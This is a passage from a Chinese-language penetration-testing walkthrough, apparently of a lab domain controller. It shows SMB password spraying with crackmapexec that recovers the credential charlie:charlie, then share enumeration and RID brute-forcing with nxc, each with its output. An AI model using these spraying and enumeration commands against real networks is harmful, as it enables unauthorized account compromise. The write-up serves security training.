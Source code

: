 发现有效用户名：

- admin
- charlie
- administrator

# 三、密码爆破

## SMB密码爆破

使用crackmapexec对发现的用户进行密码喷洒攻击：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ crackmapexec smb 192.168.205.146 -u user -p user --continue-on-success| grep '+'
SMB                      192.168.205.146 445    DC01             [+] SOUPEDECODE.LOCAL\charlie:charlie 
```

成功获得一组有效凭据：`charlie:charlie`

## 验证权限

使用获得的凭据查看SMB共享权限：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nxc smb 192.168.205.146 -u charlie -p charlie --shares
...
SMB         192.168.205.146 445    DC01             Share           Permissions     Remark
SMB         192.168.205.146 445    DC01             -----           -----------     ------
SMB         192.168.205.146 445    DC01             ADMIN$                          Remote Admin
SMB         192.168.205.146 445    DC01             C$                              Default share
SMB         192.168.205.146 445    DC01             IPC$            READ            Remote IPC
SMB         192.168.205.146 445    DC01             NETLOGON        READ            Logon server share 
SMB         192.168.205.146 445    DC01             SYSVOL          READ            Logon server share
```

charlie用户只有标准的域用户权限，无法访问敏感共享。

# 四、域用户进一步枚举

## RID爆破

使用charlie用户的凭据进行RID爆破，获取更多用户信息：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nxc smb 192.168.205.146 -u charlie -p charlie --rid-brute|awk -F '\' '{print $2}'|awk '{print $1}' > user
```
